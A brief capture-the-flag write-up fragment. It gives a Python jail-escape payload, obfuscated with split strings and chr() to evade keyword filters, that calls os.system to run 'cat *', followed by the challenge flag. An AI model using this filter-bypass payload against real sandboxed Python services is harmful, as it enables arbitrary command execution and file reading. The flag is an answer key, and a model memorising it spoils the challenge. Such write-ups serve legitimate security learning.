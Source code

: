 The command to escape pyjail is: getattr(getattr(globals()['__buil'+'tins__'],'__im'+'port__')('o'+'s'),'sys'+'tem')('cat'+chr(32)+'*') Flag is: kqctf{0h_h0w_1_w4n7_70_br34k_fr33_e73nfk1788234896a174nc}
